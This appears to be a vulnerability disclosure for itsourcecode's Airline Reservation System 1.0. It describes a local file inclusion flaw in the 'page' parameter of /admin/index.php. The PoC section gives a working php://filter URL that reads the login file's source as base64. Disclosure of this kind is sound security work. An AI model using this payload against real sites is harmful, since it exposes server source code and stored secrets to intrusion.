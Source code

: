 # Vendor

itsourcecode

# Product

Airline Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/03/Airline-Reservation-System-PHP-Project-Source-Code.zip

# Description

In the site's /admin/index.php page, due to insufficient filtering of the page parameter, an attacker can construct a special POC to achieve local file inclusion.
<img width="1437" alt="image" src="https://github.com/user-attachments/assets/04941c19-a56b-426c-8a95-bd1f1faddf09">

# PoC
```
http://192.168.17.22/admin/index.php?page=php://filter/convert.base64-encode/resource=login
```
<img width="1675" alt="image" src="https://github.com/user-attachments/assets/e1d9f57f-d278-420a-bef2-64d2f2adcedf">
